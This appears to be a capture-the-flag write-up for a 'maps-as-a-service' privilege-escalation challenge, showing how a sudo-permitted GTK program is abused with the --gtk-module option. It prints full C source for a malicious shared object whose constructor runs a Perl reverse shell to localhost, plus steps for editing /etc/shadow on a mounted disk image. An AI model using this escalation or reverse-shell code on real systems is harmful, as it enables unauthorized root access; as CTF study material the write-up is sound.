


#### Challenge Description:

> We just received another report that PROTECTIVE PENGUIN was identified at a company that provides access to mapping software as a service. The adversary allegedly elevated privileges and then moved laterally to a backup server.

> We were provided with a Virtual Machine Image of the mapping service. Can you analyze the image and reproduce the attack? If you think you've got it, the victim let us stand up an exact replica of their environment so that you can validate your results:

#### Write-Up:

For this challenge we had to do an interesting priviledge escalation using a GTK binary. We're given a `.qcow2` QEMU virtual machine image and the first challenge is being able to access it. You can use nbd to mount the filesystem and change users' passwords in `/etc/shadow` to get access. There's an extra layer of difficulty due to the filesystem using [Logical Volume Management (LVM)](https://wiki.archlinux.org/index.php/LVM). [These instructions](https://gist.github.com/pshchelo/6ffabbffaedc46456b39c037d16e1d8c) were a big help.

After finally getting access, we can log in as the low privilege user `customer01` and find the privilege escalation vector immediately. 

```
customer01@maps-as-a-service:~$ sudo -l
Matching Defaults entries for customer01 on maps-as-a-service:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User customer01 may run the following commands on maps-as-a-service:
    (ALL) NOPASSWD: /usr/local/bin/mapviewer

```

If we enabled X11 forwarding with ssh (`-X` option), we can run the binary and see the GUI program. 


Clicking around a bit we can see a bunch of error messages that indicate we are dealing with a GTK application. One of the released hints also makes a paticular note of that.

```
(mapviewer:4735): GdkPixbuf-CRITICAL **: 02:18:11.327: gdk_pixbuf_new_from_data: assertion 'width > 0' failed
(mapviewer:4735): GLib-GObject-CRITICAL **: 02:18:11.327: g_object_set_qdata_full: assertion 'G_IS_OBJECT (object)' failed
(mapviewer:4735): GdkPixbuf-CRITICAL **: 02:18:11.327: gdk_pixbuf_scale_simple: assertion 'GDK_IS_PIXBUF (src)' failed
```

One common privilege escalation vector with sudo is that command line parameters after the specified command are allowed. Sudo allows us to run something like `sudo /usr/local/bin/mapviewer --extra --parameters` and those parameters might be able to help us escalate privileges. The given parameters are fairly slim though:



But it [turns out](https://developer.gnome.org/gtk3/stable/gtk-running.html#GTK-Debug-Options) all GTK programs accept certain standard commandline parameters. Many are related to debugging but one in particular jumps out: `--gtk-module module` which loads any gtk module you pass to it. If we can make a malicious GTK module, ask mapviewer to load it using `--gtk-module`, we might be able to execute code as root. Let's try to make a malicious module using [these very helpful instructions](https://stackoverflow.com/questions/10260940/how-to-create-and-load-a-gtk-module):


Note that you need to specify the full path to the module. But running as root we have a problem:



When running as root, mapviewer is unable to initialize our X server, then `gtk_init` fails, and `gtk_module_init` isn't run. I spent quite some time trying to break `xauth` to allow root to initialize X but another hint from the organizers pushed me away from this tactic: 

> "You can not receive X display from mapviewer if it is started as root. However, the solution involves running that binary as root"

[Reading more about shared object injection](https://www.exploit-db.com/papers/37606), it turns out we don't need to run `gtk_module_init` to execute code. If we put our exploit code in a `__attribute__((constructor))` function, it will be run as soon as the shared object is loaded - we don't need `gdb-init` to succeed or X to initialize. Recompiling our `badmod.so` with an `__attribute__((constructor))` that runs a local reverse shell, and we finally get a root shell.

```
customer01@maps-as-a-service:~$ cat badmod.c 

#include <stdio.h>
#include <stdlib.h>
#include <gtk/gtk.h>

__attribute__((constructor)) void foo(void) { 
	system("perl -e 'use Socket;$i=\"127.0.0.1\";$p=7777;socket(S,PF_INET,SOCK_STREAM,getprotobyname(\"tcp\"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,\">&S\");open(STDOUT,\">&S\");open(STDERR,\">&S\");exec(\"/bin/sh -i\");};'");
}

void gtk_module_init(gint *argc, gchar ***argv) {
	printf("hey mom!\n");
}
```

Using the exploit in the replicated environment, we get root and find a recently run command in `.bash_history`. Running it, and we obtain the flag.

